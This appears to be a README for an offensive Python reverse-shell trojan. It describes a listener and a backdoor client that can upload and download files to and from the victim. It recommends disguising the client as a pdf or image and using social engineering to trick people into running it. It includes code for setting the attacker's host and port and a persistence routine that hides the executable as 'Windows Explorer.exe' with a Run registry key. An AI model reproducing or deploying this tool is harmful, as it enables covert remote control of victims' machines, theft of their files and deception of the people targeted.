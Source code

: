 # Python Reverse Shell For Trojan
Runs a reverse shell via TCP with capacity of download and upload any file from your machine to the victim's machine and vice versa. You can hide it in a simple file (like a pdf), and using reverse engineering, you can to get the person you send file to run the program believing that this is a normal pdf (or another) file.
The tool consists of two files: listener.py and reverse_shell.py.
## listener.py
Runs a TCP server in the attacker's machine and goes into listening mode, waiting for the connection from victim's machine.
### Usage:
`python3 listener.py [OPTIONS]`
### Flags:
- **-i, --ip:** Ip address to listening
- **-p, --p:** Port number to listening
- **-h, --help:** Show list of commands

### Commands:
Once the victim has connected to our server, we can run the commands from his machine like a normal reverse shell, but also, this tool has 4 own commands:
- **exit, Exit:** Finishes client-server connection.
- **down:** Download any file from client's side to our machine. The structure has to be `down` + `[dest_path]` + `[file_name]`. 
Example:
`$down /home/user/Documents/ file.txt`
Where `[dest_path]` is the route where we want to download the file **(don't add a file name here, just the path)**, and `[file_name]` is the name of the file in the victim's machine. The tool will use `[file_name]` to name the downloaded file.
- **up:** Up any file from our machine to the victim's machine. The structure has to be `up` + `[dest_path]` + `[file_name]`.
Example:
`$up /home/victim_folder/Desktop/folder/ /home/our_user/file.txt`

## reverse_shell.py
Connects via TCP to listener server.  It runs once a person opens it; you can hide it in a pdf file, png, jpg, etc. Use your social engineering skills to deceive people to open it ;).
### Configuration
At the end of the code, set the ip and port where to establish the connection:
```python
try: 
    backdoor = Backdoor('<ip>', <port>) # CHANGE HOST AND PORT HERE!
    backdoor.run()
except:
    sys.exit()
```
The ip and port have to be the same as you set in 'listener.py', because this is where connection will be established.
### Persistent mode
```python
def becomePersistent(self):
        fileLocation = os.environ['appdata'] + '\\Windows Explorer.exe'
        if not os.path.exists(fileLocation):
            shutil.copyfile(sys.executable, fileLocation)
            subprocess.call('reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + fileLocation + '"', shell=True)
```



